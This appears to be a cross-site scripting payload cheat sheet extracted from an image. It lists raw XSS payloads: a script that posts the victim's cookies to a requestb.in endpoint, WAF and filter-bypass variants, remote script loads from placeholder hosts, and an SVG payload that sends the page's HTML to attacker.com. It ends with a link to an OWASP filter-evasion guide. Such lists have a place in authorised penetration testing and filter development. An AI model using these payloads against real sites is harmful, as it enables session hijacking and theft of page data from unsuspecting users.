 ```bash

<script>var xhr = new XMLHttpRequest();xhr.open('POST', 'http://requestb.in/w0sw22w0', true);xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xhr.send(document.cookie);</script>

# alert(1) in JS
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

injecting inside of input tags
<input/onfocus=alert(0) autofocus>
<input/onfocus=alert`0` autofocus>
<input/onfocus=prompt`0` autofocus>
1'"><input/onfocus={alert`1`} autofocus> 

# WAF Bypass
'';!--"<XSS>=&{()}
<IMG SRC="javascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<svg/onload=(((confirm(1))))>
confirm()
confirm``
(confirm``)
{confirm``}
[confirm``]
(((confirm)))``
co\u006efirm()
new class extends confirm``{}
[8].find(confirm)
[8].map(confirm)
[8].some(confirm)
[8].every(confirm)
[8].filter(confirm)
[8].findIndex(confirm)


# No HTML events
<script>alert(1)//
<script>alert(1)<!--
<script>alert(1)%0A-->
<script src=data:,alert(1)>
<script src=//HOST/FILE>
<script src=https:DOMAIN/FILE>
<svg><script xlink:href=//HOST/FILE>
<svg><script xlink:href=https:DOMAIN/FILE>
<svg><script xlink:href=data:,alert(1)>
<svg/onload=(confirm(1))>
<svg/onload=confirm(1)>


# Stealing the source code without triggering browser restrictions
<svg/onload="(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML">

```
filter evasion
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
